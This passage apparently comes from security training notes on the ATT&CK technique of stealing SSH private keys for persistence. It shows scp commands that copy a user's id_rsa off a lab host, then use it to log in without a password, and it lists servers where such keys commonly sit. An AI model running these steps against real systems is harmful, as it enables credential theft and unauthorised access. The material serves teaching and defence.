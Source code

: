 * [Theft of `SSH` private keys](#theft-of-ssh-private-keys)

## Theft of `SSH` private keys
Stealing SSH private key is a widely used method to maintain access even after the user changes his password. 

This is also covered by the MITRE ATT&CK framework: https://attack.mitre.org/techniques/T1145/

```
# Copy the private keys of the user from the server, if they are kept as backup
$ scp student@192.224.16.3:~/.ssh/id_rsa .

# Once you have access to private keys of the user, you can login without password
# Change the permissions of the private key id_rsa to 400.
# It is required that your private key files are NOT accessible by others.

$ chmod 400 id_rsa
$ ssh -i id_rsa student@192.224.16.3
```
Example of private SSH keys lying in the computer

__Example case I:__  A development server that compiles, pulls/pushes code from a central code repository, and deploys the application/software on a test server might have private keys of deployment server and code server (to automate things and avoid credentials every time).

__Example case II:__ For automation, a lot of tools like Ansible, use SSH-based connections to multiple target machines, and perform a set of pre-defined actions. In this case, the machine hosting the Ansible will have the private keys.


